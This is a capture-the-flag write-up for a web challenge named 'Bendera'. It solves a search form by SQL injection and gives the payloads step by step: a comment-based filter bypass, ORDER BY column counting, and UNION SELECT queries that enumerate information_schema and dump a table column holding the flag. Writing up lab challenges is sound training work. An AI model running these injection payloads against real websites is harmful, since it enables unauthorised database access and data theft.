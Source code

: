 # Bendera

> Category: Web Exploitation🕸️

![img](desc.png)


## 🔍 Overview

Visiting the page shows us the search form.

![img](page.png)


## ✨ Solution

Try to view the source page:

![img](source.png)

Looks like we will need to exploit using SQLI here. Try to veiw the <code>waf_config.txt</code>:

![img](waf.png)

From this page, we can sure it is an SQLI challenge here, and we can try to bypass the waf easily here by:
```
' order by 1 #
```

Keep trying to find the number of column until it shows us the error. The error shows up when we inject:
```
' order by 4 #
```

![img](error.png)

It means that the number of rows are 3. Now we can try to find the name of the database:
```
' Union Select 1, 2, database();#
```

![img](database.png)

From here, it looks like the name of the database is <code>bahtera</code>. Now try to enumerate the name of the table:
```
' Union Select 1, 2, group_concat(table_name) from information_schema.tables where table_schema="bahtera";#
```

![img](tablename.png)

Table name <code>tokoh</code> found. After that, enumerate the column name inside the table <code>tokoh</code>:
```
' Union Select 1, 2, group_concat(column_name) from information_schema.columns where table_name="tokoh";#
```

![img](columnname.png)

Looks like there are three columns found, which are <code>bendera</code>, <code>id</code> and <code>nama</code>. Try to dump the content inside column <code>bendera</code>:
```
' Union Select 1, 2, group_concat(bendera) from tokoh;#
```

![flag](flag.png)

<details><summary><b>🏳️ Flag:</b></summary><b>3108{d4_jUmP@_b3nD3eR4_k3??}</b></details>


## 📚 References:

-  https://github.com/Yokonakajima11/HackTheBox?tab=readme-ov-file#sql-injection